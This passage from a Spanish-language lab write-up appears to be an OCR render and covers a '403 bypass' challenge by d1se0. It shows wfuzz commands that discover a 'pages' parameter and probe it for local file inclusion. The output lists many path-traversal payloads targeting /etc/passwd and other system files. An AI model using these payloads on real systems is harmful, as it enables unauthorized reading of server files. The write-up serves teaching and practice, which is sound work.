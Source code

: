 ```html
                padding: 15px;
                border: 2px dashed #0f0;
                color: #0f0;
            }
        </style>
    </head>
    <body>
        <div class="container">
            <h1>  By d1se0</h1>
            <p>Nadie que este autorizado puede visualizar esta pagina, lo tenemos protegido con un 403 Forbidden.</p>
            <p>Explorar lo es todo, piensa y explora.</p>
            <div class="flag">Cuantos secretos guarda esta web...</div>
        </div>
    </body>
    </html>
```

###### Fuzzeando parametros:
Realizaremos un ataque de **fuzzing** para encontrar si existe algun parametro en la consulta **php**
```bash
wfuzz -c -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://bypass403.pw/index.php?FUZZ=/etc/passwd" -H "Referer: http://bypass403.pw/index.php" --hl=38
```

Tenemos un parametro:
```bash
000000174:   200        19 L     21 W       888 Ch      "pages"
```

Ahora tenemos que ver si podemos derivarlo a un **LFI** para que puedamos leer archivos internos del sistema:
```bash
wfuzz -c -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://bypass403.pw/index.php?pages=FUZZ" -H "Referer: http://bypass403.pw/index.php" --hl=0
```

Obtenemos lo siguiente que tendremos que pobrar para ir descartando los que no sirven:
```bash
 "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                         
 "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"            
 "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passw
 "/etc/apache2/apache2.conf"                                                      
 "/etc/fstab"                                                                     
 "/etc/group"                                                                     
 "/etc/apt/sources.list"                                                          
 "/etc/hosts"                                                                     
 "../../../../../../../../../../../../etc/hosts"                                  
 "../../../../../../../../../../../../../../../../../../etc/passwd"               
 "../../../../../../../../../../../../etc/passwd"                                 
 "../../../../../../../../../../../etc/passwd"                                    
 "../../../../../../../../../../../../../etc/passwd"                              
 "../../../../../../../../../../../../../../etc/passwd"                           
 "../../../../../../../../../../../../../../../../../../../etc/passwd"            
 "../../../../../../../../../../../../../../../../../etc/passwd"                  
 "../../../../../../../../../../../../../../../../etc/passwd"                     
 "../../../../../../../../../../../../../../../../../../../../etc/passwd"         
 "../../../../../../../../../../../../../../../etc/passwd"                        
 "../../../../../../../../../../../../../../../../../../../../../etc/passwd"      
 "/etc/passwd"                                                                    
 "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"   
 "/./././././././././././etc/passwd"                                              
 "/etc/nsswitch.conf"                                                             
 "/../../../../../../../../../../etc/passwd"                                      
 "/etc/issue"                                                                     
```